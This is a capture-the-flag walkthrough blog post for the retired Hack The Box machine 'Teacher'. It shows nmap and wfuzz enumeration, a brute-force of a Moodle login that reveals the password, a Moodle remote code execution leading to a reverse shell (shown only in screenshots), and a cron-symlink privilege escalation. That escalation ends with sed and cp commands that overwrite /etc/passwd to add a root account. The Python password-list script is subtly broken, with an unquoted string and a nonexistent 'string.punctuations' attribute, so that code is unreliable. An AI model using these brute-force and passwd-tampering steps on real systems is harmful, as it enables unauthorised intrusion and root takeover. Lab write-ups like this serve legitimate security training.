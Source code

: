 ```yaml
---
layout: post
title: "Teacher: Hack The Box Walkthrough"
date: 2019-04-21 02:33:27 +0000
last_modified_at: 2019-04-21 02:33:57 +0000
category: Walkthrough
tags: ["Hack The Box", Teacher, retired]
comments: true
image:
  feature: teacher-htb-walkthrough.jpg
  credit: Alexas_Fotos / Pixabay
  creditlink: https://pixabay.com/en/baby-sitter-children-educator-nanny-1073411/
---
```


This post documents the complete walkthrough of Teacher, a retired vulnerable [VM][1] created by [Gioo][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post
{:.no_toc}

* TOC
{:toc}

## Background

Teacher is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 10.10.10.153
...
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.25 ((Debian))
| http-methods:
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Blackhat highschool
```

`nmap` finds `80/tcp` open. Let's go with that.

### Directory/File Enumeration

Based on my experience, it's always good to run some kind of fuzzing when faced with a lack of hints. Let's run `wfuzz` and SecList's `common.txt`, and see what we can find.

```
# wfuzz -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 20 --hc 404 http://10.10.10.153/FUZZ
********************************************************
* Wfuzz 2.3.1 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.153/FUZZ
Total requests: 4593

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000010:  C=403     11 L	      32 W	    291 Ch	  ".hta"
000011:  C=403     11 L	      32 W	    296 Ch	  ".htaccess"
000012:  C=403     11 L	      32 W	    296 Ch	  ".htpasswd"
001232:  C=301      9 L	      28 W	    310 Ch	  "css"
001735:  C=301      9 L	      28 W	    312 Ch	  "fonts"
002067:  C=301      9 L	      28 W	    313 Ch	  "images"
002094:  C=200    249 L	     747 W	   8028 Ch	  "index.html"
002218:  C=301      9 L	      28 W	    317 Ch	  "javascript"
002250:  C=301      9 L	      28 W	    309 Ch	  "js"
002497:  C=301      9 L	      28 W	    313 Ch	  "manual"
002627:  C=301      9 L	      28 W	    313 Ch	  "moodle"
002995:  C=403     11 L	      32 W	    297 Ch	  "phpmyadmin"
003597:  C=403     11 L	      32 W	    300 Ch	  "server-status"

Total time: 47.61103
Processed Requests: 4593
Filtered Requests: 4580
Requests/sec.: 96.46924
```

The site is running Moodle. [Moodle](https://github.com/moodle/moodle) is the world's open source learning platform. Moodle has its fair share of SQLi and RCE vulnerabilities but would require authenticated access.


{% include image.html image_alt="d31325ca.png" image_src="/8b223cc1-4095-45cd-ab6d-0e3265cc766a/d31325ca.png" %}


While I was hunting around for a credential, something caught my eye at the Teacher's gallery page.


{% include image.html image_alt="7f34d280.png" image_src="/8b223cc1-4095-45cd-ab6d-0e3265cc766a/7f34d280.png" %}


I got double F's! Something funky is going on here...


{% include image.html image_alt="0cf66884.png" image_src="/8b223cc1-4095-45cd-ab6d-0e3265cc766a/0cf66884.png" %}


`5.png` is not an image. It's a text file.


{% include image.html image_alt="51d6ef0b.png" image_src="/8b223cc1-4095-45cd-ab6d-0e3265cc766a/51d6ef0b.png" %}


Gotcha!

It's easy to generate a password list for brute-forcing the Moodle login form. You can do it with Python like so.

```python
import string

charset = string.ascii_letters + string.digits + string.punctuations

f = open('passwords.txt', 'w')
s = Th4C00lTheacha
t = ''

for c in charset:
  t += s + c + '\n'

f.write(t)
f.close()
```

Once the password list is generated, we can use `wfuzz` to brute-force it.

```
# wfuzz -w passwords.txt --hh 440 -t 20 -d "anchor=&username=giovanni&password=FUZZ" http://10.10.10.153/moodle/login/index.php
********************************************************
* Wfuzz 2.3.1 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.153/moodle/login/index.php
Total requests: 94

==================================================================
ID   Response   Lines      Word         Chars          Payload    
==================================================================

000065:  C=303      6 L	      34 W	    454 Ch	  "Th4C00lTheacha#"

Total time: 17.72110
Processed Requests: 94
Filtered Requests: 93
Requests/sec.: 5.304409
```

The credential is (`giovanni:Th4C00lTheacha#`).


{% include image.html image_alt="ca2fc9fc.png" image_src="/8b223cc1-4095-45cd-ab6d-0e3265cc766a/ca2fc9fc.png" %}


## Low-Privilege Shell

Following the instructions from this [post](https://blog.ripstech.com/2018/moodle-remote-code-execution/), I was able to execute a reverse shell back to me.

First, create a calculated question like so.


{% include image.html image_alt="4cd4b5a0.png" image_src="/8b223cc1-4095-45cd-ab6d-0e3265cc766a/4cd4b5a0.png" %}


Create the formula like so.


{% include image.html image_alt="ef16f0d5.png" image_src="/8b223cc1-4095-45cd-ab6d-0e3265cc766a/ef16f0d5.png" %}


Then execute remote commands on the host to run a reverse shell back to me using `nc`.


{% include image.html image_alt="213a07a8.png" image_src="/8b223cc1-4095-45cd-ab6d-0e3265cc766a/213a07a8.png" %}


There you have it, a low-privilege shell.


{% include image.html image_alt="400efef7.png" image_src="/8b223cc1-4095-45cd-ab6d-0e3265cc766a/400efef7.png" %}


Let's upgrade our shell with a pseudo-TTY using Python and then `stty raw -echo; fg; reset`.

## Privilege Escalation

I'm aware that Moodle connects to a database backend to store all the good stuff. The database settings are in `config.php` at the Moodle directory.


{% include image.html image_alt="30e91902.png" image_src="/8b223cc1-4095-45cd-ab6d-0e3265cc766a/30e91902.png" %}


Let's connect to the database.


{% include image.html image_alt="b4d16fec.png" image_src="/8b223cc1-4095-45cd-ab6d-0e3265cc766a/b4d16fec.png" %}


Cracking the MD5 hash is easy.


{% include image.html image_alt="1dc2b446.png" image_src="/8b223cc1-4095-45cd-ab6d-0e3265cc766a/1dc2b446.png" %}


This is the password to `giovanni`'s account. `user.txt` is in the home directory.


{% include image.html image_alt="2a856c44.png" image_src="/8b223cc1-4095-45cd-ab6d-0e3265cc766a/2a856c44.png" %}


During enumeration of `giovanni`'s account, I noticed the pressence of `work` directory and `/usr/bin/backup.sh` referred to it.


{% include image.html image_alt="dc87e44b.png" image_src="/8b223cc1-4095-45cd-ab6d-0e3265cc766a/dc87e44b.png" %}


If I had to guess, I would say this is inside a `cron` job ran with `root` privileges since `giovanni` has no permissions to edit it.

But, look at the last line. It changes the permissions of any file to `rwxrwxrwx`. What if I put a symbolic link to `/etc/passwd` in it?


{% include image.html image_alt="39075b90.png" image_src="/8b223cc1-4095-45cd-ab6d-0e3265cc766a/39075b90.png" %}


Boom! Anyone can edit `/etc/passwd`. Let's give ourselves `root` access.

```
$ sed -r '1h;x;2s/root:x/toor:to5bce5sr7eK6/' /etc/passwd > /tmp/passwd
$ cp /tmp/passwd /etc/passwd
```


{% include image.html image_alt="7a326bec.png" image_src="/8b223cc1-4095-45cd-ab6d-0e3265cc766a/7a326bec.png" %}


With a `root` shell, getting `root.txt` is a breeze.


{% include image.html image_alt="f6295439.png" image_src="/8b223cc1-4095-45cd-ab6d-0e3265cc766a/f6295439.png" %}


:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/165
[2]: https://www.hackthebox.eu/home/users/profile/623
[3]: https://www.hackthebox.eu/
